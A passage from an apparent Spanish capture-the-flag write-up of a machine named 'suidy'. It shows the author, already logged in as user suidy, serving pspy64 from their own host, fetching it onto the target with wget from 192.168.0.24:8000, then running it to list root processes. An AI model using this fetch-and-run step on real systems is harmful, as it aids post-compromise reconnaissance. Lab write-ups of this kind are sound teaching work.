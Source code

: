 Al ejecutarlo nos hemos convertido en el usuario *suidy* y ahora ya tenemos permisos para leer esa nota que nos da otra pista. Por tanto, nos vamos a situar en el directorio de trabajo de suidy y subir la herramienta *pspy64* que nos ayudará a localizar procesos dentro del sistema.

De esta forma, creamos un servidor en Python `python3 -m http.server` y la subimos:

~~~bash
suidy@suidy:~$ cd /home/suidy
suidy@suidy:/home/suidy$ wget 192.168.0.24:8000/pspy64
--2022-11-25 17:40:32--  http://192.168.0.24:8000/pspy64
Conectando con 192.168.0.24:8000... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 3078592 (2,9M) [application/octet-stream]
Grabando a: “pspy64”

pspy64                                        100%[=================================================================================================>]   2,94M  --.-KB/s    en 0,02s   

2022-11-25 17:40:32 (158 MB/s) - “pspy64” guardado [3078592/3078592]
~~~

Ahora le damos permisos y la ejecutamos:

~~~bash
suidy@suidy:/home/suidy$ chmod +x pspy64 
suidy@suidy:/home/suidy$ ./pspy64 
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2022/11/25 17:44:10 CMD: UID=0    PID=99     | 
2022/11/25 17:44:10 CMD: UID=0    PID=97     | 
2022/11/25 17:44:10 CMD: UID=0    PID=95     | 
2022/11/25 17:44:10 CMD: UID=0    PID=9      | 
2022/11/25 17:44:10 CMD: UID=1000 PID=810    | (sd-pam) 
2022/11/25 17:44:10 CMD: UID=1000 PID=809    | /lib/systemd/systemd --user 
2022/11/25 17:44:10 CMD: UID=0    PID=8      | 
2022/11/25 17:44:10 CMD: UID=0    PID=7      | 
2022/11/25 17:44:10 CMD: UID=0    PID=6      | 
2022/11/25 17:44:10 CMD: UID=0    PID=59     | 
2022/11/25 17:44:10 CMD: UID=0    PID=50     | 
2022/11/25 17:44:10 CMD: UID=0    PID=49     | 
2022/11/25 17:44:10 CMD: UID=0    PID=48     | 
2022/11/25 17:44:10 CMD: UID=0    PID=4      | 
2022/11/25 17:44:10 CMD: UID=33   PID=380    | nginx: worker process                            
2022/11/25 17:44:10 CMD: UID=0    PID=375    | nginx: master process /usr/sbin/nginx -g daemon on; master_process on; 
2022/11/25 17:44:10 CMD: UID=0    PID=333    | /usr/sbin/sshd -D 
2022/11/25 17:44:10 CMD: UID=0    PID=329    | /sbin/dhclient -4 -v -i -pf /run/dhclient.enp0s3.pid -lf /var/lib/dhcp/dhclient.enp0s3.leases -I -df /var/lib/dhcp/dhclient6.enp0s3.leases enp0s3 
2022/11/25 17:44:10 CMD: UID=0    PID=328    | /sbin/agetty -o -p -- \u --noclear tty1 linux 
~~~
